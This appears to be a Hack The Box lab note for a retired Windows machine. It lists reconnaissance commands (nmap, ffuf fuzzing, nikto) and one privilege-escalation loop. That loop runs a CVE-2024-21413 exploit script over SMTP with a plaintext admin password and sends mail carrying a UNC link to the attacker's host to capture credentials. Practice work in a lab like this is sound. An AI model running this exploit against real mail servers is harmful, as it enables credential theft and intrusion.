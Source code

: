 ```yaml
---
tags:
  - HTB
  - Retired
  - Windows
creation date: 2018-09-29
Date Completed: 2024-08-24
CVEs: 
URL: 
IP: 10.129.16.49
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```

```

### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.domain.htb" -c
```

`-recursion -recursion-depth 1`

When raft fails
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u $URL/FUZZ -c
```
### Nikto (Identify Technology)

```
nikto -h $URL -C all
```


# Priv Esc
```
for i in {1..1000}; do python3 exploit.py --server $IP --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.101\test" --subject "CVE-2024-21413 PoC"; sleep 30s; done
```